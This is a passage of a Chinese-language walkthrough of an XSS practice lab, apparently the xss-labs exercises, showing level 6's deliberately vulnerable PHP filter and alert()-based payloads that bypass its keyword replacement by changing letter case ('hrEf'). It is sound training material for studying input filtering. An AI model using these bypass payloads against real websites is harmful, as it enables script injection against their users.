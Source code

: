 `<script " 'Oonn>`

变成了 

`<scr_ipt " 'oo_nn>`

在中间加了下划线,大O变成小写了。

关键字处理一次，单引号和双引号依然存在。

`"><a href ="javascript:alert:alert(/xss/)">click</a>`



## level6

http://192.168.31.193:8080/level6.php?keyword=break%20it%20out!

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

对**<script，on，src，data，href**做了加下划线处理。



测试过滤了什么

`<script " 'Oonn>`

<scr_ipt " 'Oo_nn>

和之前过滤一下。尝试之前的payload

`"><a href ="javascript:alert:alert(/xss/)">click</a>`

发现超链接被过滤

<a hr_ef ="javascript:alert:alert(/xss/)">click</a>

尝试**大小写** ，**hrEf**

``"><a hrEf ="javascript:alert:alert(/xss/)">click</a>``

## level7
